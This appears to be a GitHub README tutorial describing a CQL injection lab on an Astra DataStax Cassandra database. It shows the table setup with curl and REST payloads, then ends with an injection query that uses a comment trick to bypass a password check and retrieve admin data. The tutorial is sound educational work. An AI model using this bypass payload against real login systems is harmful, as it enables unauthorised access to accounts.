




# CQL Injection tutorial

## Table of contents
- [Introduction](#introduction)
- [Creating the database](#creating-the-database)
- [Creating users table](#creating-users-table)
- [Inserting data into users table.](#inserting-data-into-users-table)
- [CQL injection script](#cql-injection-script)

## Introduction
This document contains to description of the CQL injection lab, where a POC database it's created in ASTRA Datastax (Free edition of paid distribution of Cassandra) and after inserting data into a `users` table, its admin data it's retrieved by CQL injection, simulating a login scenario.

## Creating the database
After creating a free account in https://astra.datastax.com, the keyspace `cql_injection` was created which is the database that will contain the data that will be exploded with CQL injection script.



## Creating users table
Datastax astra provides a REST API which allows to create tables as documented in [Creating a table in your keyspace](https://docs.datastax.com/en/astra/docs/creating-a-table-in-your-keyspace.html). The following payload was used to create the `users` table.

```
curl -s --location \
--request POST http://$ASTRA_CLUSTER_ID-$ASTRA_REGION.apps.astra.datastax.com/api/rest/v2/schemas/keyspaces/users_keyspace/tables \
--header "X-Cassandra-Token: $ASTRA_DB_APPLICATION_TOKEN" \
--header "Content-Type: application/json" \
--header "Accept: application/json" \
--data '{
	"name": "users",
	"columnDefinitions":
	  [
        {
	      "name": "username",
	      "typeDefinition": "text"
	    },
        {
	      "name": "password",
	      "typeDefinition": "text"
	    },
        {
	      "name": "firstname",
	      "typeDefinition": "text"
	    },
        {
	      "name": "lastname",
	      "typeDefinition": "text"
	    },
        {
	      "name": "favorite_color",
	      "typeDefinition": "text"
	    }
	  ],
	"primaryKey":
	  {
	    "partitionKey": ["username"],
	    "clusteringKey": ["lastname"]
	  }
}'
```

The payload defines the columns: `user`, `pass`, `firstname`, `lastname`, `favorite_color`. Which hold the `username` as primary key and `lastname` as clustering key. After the payload was executed the following response was received to confirm the table was created:

```
{
    "name": "users"
}
```

Cheking table created in CQL console using the command `describe tables`:



## Inserting data into users table.
Using REST API a couple of data was inserted in the `users` table, example payload:
```
{
    "username": "admin",
    "lastname": "Ramirez",
    "favorite_color": "blue",
    "firstname": "Steven",
    "password": "admin456"
}
```

Payload confirmation:
```
{
    "username": "admin",
    "lastname": "Ramirez"
}
```
Check data into users table `SELECT * FROM cql_injection.users`



## CQL injection script

Simulating a login scenario where you want to check if a user with the username of `admin` usually exists in the `users` table you want to bypass the password with the following query:

```
SELECT * FROM cql_injection.users WHERE username = 'admin'/*' AND password = '*/and password>'' ALLOW FILTERING;
```
If you inject that script bypassing the password you still can get the information from the admin without knowing the password as shown in the execution

